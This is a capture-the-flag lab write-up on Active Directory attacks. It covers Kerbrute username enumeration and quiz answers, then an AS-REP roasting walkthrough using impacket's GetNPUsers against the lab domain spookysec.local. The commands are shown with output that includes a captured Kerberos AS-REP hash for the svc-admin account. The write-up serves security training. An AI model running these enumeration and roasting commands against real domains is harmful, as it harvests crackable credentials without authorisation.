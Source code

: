 
#### **Questions**

*   What command within Kerbrute will allow us to enumerate valid usernames?

    `userenum`
*   What notable account is discovered? (These should jump out at you)

    `svc-admin`
*   What is the other notable account is discovered? (These should jump out at you)

    `backup`

## Exploitation

### Abusing Kerberos

* Now as we have a valid list of usernames.
* we can attempt to abuse a feature within Kerberos with an attack method called **ASREPRoasting.**
* ASReproasting occurs when a user account has the privilege “Does not require Pre-Authentication” set.
* This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.
* for this attack we will be using `GetNPUsers` from impacket.
* we will need to make a username list of found valid user accounts like: `james` or `james@spookysec.local` and put it in list.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ for user in $(cat Attacktive_Directory/test.txt); do impacket-GetNPUsers -no-pass -dc-ip 10.10.134.250 spookysec.local/${user} | grep -v Impacket; done

[*] Getting TGT for james
[-] User james doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:9dac2eefa3f329dfb7119e262dce1c8c$7035243c73875f23a111b558dc6170535d92b9d91d9cf25d9bddeb768cf161aeadfc2bb764c616b9cd1c723be44796889c12d8da84655b8a2c0bc57311d3536634ae0a2b04ee7a58a9057ed92eca8d014059a99cc86d69a7b7f6071e75348f0f705569a51ad0405aafbba4ee224fda51e7efbb3ceedbe78e6dd5a3b5718df67d1eae61486a53a0a2d44ad045137c597f24e841fe57392867e1ceffaa068c7b94e6479fb6415363f5c3091e2062b6f2c07c79acd89b55c445a12133f91a347087d51d9721a45801fd5230483c01f1fcddb2f03d13f745b1291549e3e1a512f778cac74421154b36fc6f2751face517e2a175f

[*] Getting TGT for robin
[-] User robin doesn't have UF_DONT_REQUIRE_PREAUTH set

---snip---
```

* we can also use following command to do just as above.

```bash
python3 /usr/local/bin/GetNPUsers.py spookysec.local/svc-admin -request -dc-ip $TARGET -no-pass
```
